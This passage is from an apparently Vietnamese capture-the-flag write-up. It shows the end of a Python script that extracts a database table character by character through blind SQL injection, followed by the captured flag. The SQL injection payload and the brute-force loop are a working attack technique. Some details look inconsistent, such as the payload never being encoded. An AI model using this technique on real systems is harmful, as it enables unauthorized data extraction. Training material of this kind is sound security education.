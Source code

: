 ```python
            break
        lenght_content_table+=1
    print(lenght_content_table)
    #GET CONTENT TABLE
    table_string_content=""
    for i in range(1,lenght_content_table+1):
        for char in list_wordlist:
            payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT({columns[0]})) FROM {table_child}), {i}, 1) = '{char}') ; ##"
            encoded_data = base64.b64encode(dataClear.encode()).decode()
            data = {
                "data": encoded_data
            }
            json_data = json.dumps(data)

            response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
            response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
            response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
            response_data = json.loads(response_result.text)
            print(payload)
            if response_data == "EMPTY":
                table_string_content+=char
                break
    content_table = table_string_content.split(",")
    print(content_table)
    break
```

Chạy nó và bạn sẽ lấy được flag:
![Alt text](writeup-vsl-ctf-internal-2023/image46.png)

![Alt text](writeup-vsl-ctf-internal-2023/image47.png)

Chi tiết cách nó hoạt động, bọn mình sẽ giải thích vào những buổi training sau.

`FLAG: vku{levle_sqli_you_4re_7he_b3st}`
